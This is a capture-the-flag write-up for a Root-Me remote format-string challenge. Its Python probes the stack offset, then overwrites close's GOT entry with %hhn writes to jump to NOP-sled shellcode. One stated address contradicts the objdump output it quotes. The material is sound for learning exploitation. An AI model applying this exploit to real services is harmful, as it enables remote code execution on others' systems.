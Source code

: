 # ELF x86 - Remote Format String bug
https://www.root-me.org/en/Challenges/App-System/ELF32-Remote-Format-String-bug
```
Environment configuration :
PIE 	Position Independent Executable 	 No
RelRO 	Read Only relocations 	                 No
NX 	Non-Executable Stack 	                 No
ASLR 	Address Space Layout Randomization 	 No
SF 	Source Fortification 	                 No
SSP 	Stack-Smashing Protection 	         No
SRC 	Source code access 	                 Yes

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	TCP
Port	        56032
SSH access 	ssh -p 2222 app-systeme-ch32@challenge02.root-me.org   
Username	app-systeme-ch32
Password	app-systeme-ch32
```
The vulnerable code is pretty obvious. It presented in the **recv_loop** function:
```c
recv(csock, input, LENGTH-1, 0);
snprintf (output, sizeof (output), input);
output[sizeof (output) - 1] = '\0';
send(csock, output, LENGTH-1, 0);
close(csock);
```
It's a format string vulnerability (as the title implies). So, we'll have to find few stuff before we'll be able to exploit it:
<ol>
  <li>The offset to the format string.</li>
  <li>A place to put our shellcode and it's address.</li>
  <li>An address that we'll overwrite with our shellcode's address.</li>
</ol>

**(1)** We can find out the offset pretty easily, with a small python script that will take leaverage of the '$'-flag:

```py
import socket

for i in xrange(1, 300):
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect(('challenge02.root-me.org', 56032))

  exploit = 'AAAA%{0}$p'.format(i)
  s.send(exploit)
  print i, s.recv(1024)

  s.close()
```
After few seconds, this script will print ```5 AAAA0x41414141``` which indicates that there are 4 values in the stack before the format string.

**(2)** At the end of **recv_loop**, there is a call to _close_ for terminating the connection. Therefore, the we'll have to jump to our shellcode before the function ends.<br>
In order to so, we can overwrite the GOT entry of _close_. So, when it will try to close the socket, it will jump to our shellcode instead.
ASLR is not set, so we can find out the GOT entry's address using objdump:
```sh
objdump -R ./ch32

./ch32:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a058 R_386_COPY        __environ
0804a000 R_386_JUMP_SLOT   setsockopt
0804a004 R_386_JUMP_SLOT   printf
0804a008 R_386_JUMP_SLOT   wait
0804a00c R_386_JUMP_SLOT   htons
0804a010 R_386_JUMP_SLOT   perror
0804a014 R_386_JUMP_SLOT   accept
0804a018 R_386_JUMP_SLOT   getpid
0804a01c R_386_JUMP_SLOT   __gmon_start__
0804a020 R_386_JUMP_SLOT   exit
0804a024 R_386_JUMP_SLOT   __libc_start_main
0804a028 R_386_JUMP_SLOT   bind
0804a02c R_386_JUMP_SLOT   memset
0804a030 R_386_JUMP_SLOT   snprintf
0804a034 R_386_JUMP_SLOT   fork
0804a038 R_386_JUMP_SLOT   htonl
0804a03c R_386_JUMP_SLOT   listen
0804a040 R_386_JUMP_SLOT   socket
0804a044 R_386_JUMP_SLOT   recv
0804a048 R_386_JUMP_SLOT   close <-------------- HERE
0804a04c R_386_JUMP_SLOT   send
```
The address is 0x084a48.

**(3)** The challenge is a remote service. Therefore, we're not able to put the shellcode in an environment variable. Instead, we'll put it in the format string (NX is not set). Using gdb, one can find out that the address of the format string is around 0xbffff350. So in order to jump there successfully, we'll put the shellcode at the end of the format string with a NOP-sled. Let's try to jump to 0xbffff41c.

Now we're ready to build our exploit.<br>
first we'll put the addresses of all 4 bytes of the GOT entry:
```py
exploit = ''
exploit += struct.pack('I', CLOSE_PLT)
exploit += struct.pack('I', CLOSE_PLT + 1)
exploit += struct.pack('I', CLOSE_PLT + 2)
exploit += struct.pack('I', CLOSE_PLT + 3)
```
Now we'll write each one to it's wanted value, using the 'hnn'-flag and '%x' for padding:
```py
bytes = [0x00, 0x00, 0x00, 0x00]
bytes[0] = ((SHELLCODE_ADDRESS >> 0) & 0xff) - (len(bytes) * 4)
bytes[1] = ((SHELLCODE_ADDRESS >> 8) & 0xff) - (bytes[0] + len(bytes) * 4)
bytes[2] = ((SHELLCODE_ADDRESS >> 16) & 0xff) - (bytes[0] + bytes[1]  + len(bytes) * 4)
bytes[3] = ((SHELLCODE_ADDRESS >> 24) & 0xff) + 1

exploit += '%{0}x%{1}$hhn'.format(bytes[0], OFFSET)
exploit += '%{0}x%{1}$hhn'.format(bytes[1], OFFSET + 1)
exploit += '%{0}x%{1}$hhn'.format(bytes[2], OFFSET + 2)
exploit += '%{0}x%{1}$hhn'.format(bytes[3], OFFSET + 3)
```

And finally we'll add the NOP-sled and the shellcode to the format string:
```py
exploit += '\x90' * (BUFFER_LEN - len(exploit) - len(SHELLCODE))
exploit += SHELLCODE
```

So, after running the script (uploaded to this directory), the following output appears:
```sh
[!] Shellcode's length: 23.
[+] Starting communicating with the service.
[+] Preparing the exploit buffer with the shellcode.
[+] The buffer sent to the remote service.
[+] Flag: <censored>.
```
